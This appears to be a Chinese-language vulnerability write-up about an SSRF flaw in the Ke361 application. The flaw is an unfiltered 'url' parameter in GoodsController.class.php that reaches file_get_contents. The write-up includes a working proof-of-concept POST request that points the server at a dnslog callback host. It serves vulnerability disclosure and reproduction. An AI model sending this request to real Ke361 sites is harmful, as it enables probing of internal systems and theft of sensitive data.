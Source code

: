 # Ke361 GoodsController.class.php SSRF漏洞

## 漏洞描述

Ke361 GoodsController.class.php URL参数存在 SSRF漏洞，通过漏洞可以获取敏感信息

## 漏洞影响

```
Ke361
```

## 环境搭建

https://gitee.com/jcove/ke361

## 漏洞复现

存在漏洞的文件为 `Application/Home/Controller/GoodsController.class.php`

![image-20220518153445715](./images/202205181534788.png)

URL参数无任何过滤，传入 file_get_contents函数，造成SSRF漏洞，构造请求

```
POST /index.php?s=/Goods/ajGetGoodsDetial
 
url=http://6si2gt.dnslog.cn
```

![image-20220518153459466](./images/202205181534535.png)

dnslog接收到请求

![image-20220518153527567](./images/202205181535619.png)